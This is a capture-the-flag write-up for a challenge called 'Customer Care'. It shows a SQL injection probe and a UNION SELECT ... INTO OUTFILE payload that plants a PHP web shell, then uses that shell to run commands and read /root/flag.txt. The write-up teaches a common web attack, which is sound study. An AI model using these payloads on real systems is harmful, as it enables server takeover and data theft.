





## Customer Care

<p align="center">

</p>
<hr>
<p align="center">

</p>

This challenge was a simple sql injection vulnerability. 
There is a text input in the main page. If you try special inputs like ```1' or 1=1 ; #``` you will realize this input can be exploited with sql injection.

<p align="center">

</p>

On the other hand if you try an invalid url you will see this in 404 page:

<p align="center">

</p>

So the web files are stored in the address ```/var/www/ecustomers/```

Let's see if we can get a shell by using this payload:

```1' union select "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "/var/www/ecustomers/sth.php" ; #```

In this payload we write a php code into a file called 'sth.php' that executes shell commands.

Now to see if we have successfully uploaded the payload we enter this url: ```sth.php?cmd=uname+-a```

```uname -a``` is just an example. I could try any other linux commands as long as it gave me some output.

<p align="center">

</p>

Now that we have access to shell if we look around the server files we can find these files in /root directory.

<p align="center">

</p>

Finally we can enter this url ```sth.php?cmd=cat+/root/flag.txt``` and get the flag.
